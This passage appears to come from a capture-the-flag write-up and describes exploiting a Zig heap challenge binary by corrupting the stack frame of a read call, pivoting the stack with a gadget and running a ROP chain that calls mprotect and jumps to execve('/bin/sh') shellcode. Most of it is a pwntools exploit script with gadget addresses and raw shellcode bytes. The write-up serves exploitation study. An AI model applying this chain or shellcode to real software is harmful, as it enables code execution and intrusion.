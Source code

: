 ## ROP

Now we're able to overwrite whatever function's stackframe, we have to find one that returns from context of `std.fs.file.File.read` that reads the user input to the chunk. But unlucky functions like `add`, `edit` are inlined in the `main` function. Moreover we cannot overwrite the return address of the `main` function given that the exit handler call directly exit. Which means we have to corrput the stackframe of the `std.fs.file.File.read` function called in the `edit` function.
But the issue is that between the call to `SYS_read` within `std.fs.file.File.read` and the end of the function, variables that belong to the calling function's stackframe are edited, corrupting the ROPchain. So what I did is using this gadget to reach a part of the stack that will not be corrupted:

```
0x0000000000203715 : add rsp, 0x68 ; pop rbx ; pop r14 ; ret
```

With the use of this gadget I'm able to pop a few QWORD from the stack to reach another area of the stack where I write my ROPchain.
The goal for the ROPchain is to `mptotect` a shellcode and then jump on it. The issue is that I didn't find a gadget to control the value of the `rdx` register but when it returns from `std.fs.file.File.read` it contains the value of size given to `edit`. So to call `mprotect(rdi=0x208000, rsi=0x1000, rdx=0x7)` we have to call `edit` with a size of `7` to write on the `std.fs.file.File.read` saved RIP the value of the magic gadget seen previously.

Here is the ROPchain:
```py
edit(4, 0x400 + 5*8, b"A"*0x400 + pwn.p64(0x208000)*3 + pwn.p64(0x000) + pwn.p64(0))
# with the use of the write what were we write the shellcode at 0x208000

shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
# execve("/bin/sh", NULL, NULL)

alloc(14, 1000, shellcode)

"""
0x0000000000201fcf : pop rax ; syscall
0x0000000000203147 : pop rdi ; ret
0x000000000020351b : pop rsi ; ret
0x00000000002035cf : xor edx, edx ; mov rsi, qword ptr [r9] ; xor eax, eax ; syscall
0x0000000000201e09 : ret
0x0000000000203715 : add rsp, 0x68 ; pop rbx ; pop r14 ; ret
"""

edit(4, 0x400 + 5*8, b"A"*0x400 + pwn.p64(stack-0x50)* 3 + pwn.p64(0) + pwn.p64(0))
# write ROPchain into the safe area on the stack 
alloc(11, 0x400, pwn.p64(0x203147) \ # pop rdi ; ret
        + pwn.p64(0x208000) + \ # target area for the shellcode
        pwn.p64(0x20351b) + \ # pop rsi ; ret
        pwn.p64(0x1000) + \ # length
        pwn.p64(0x201fcf) + \ # pop rax ; syscall
        pwn.p64(0xa) + \ # SYS_mprotect
        pwn.p64(0x208000)) # jump on the shellcode + PROFIT

edit(4, 0x400 + 5*8, b"A"*0x400 + pwn.p64(stack-0xd0)* 3 + pwn.p64(0) + pwn.p64(0))

alloc(12, 1000, pwn.p64(0x202d16)) # valid return address
edit(12, 0x7, pwn.p64(0x0000000000203715)) # magic gadget

io.interactive()
```

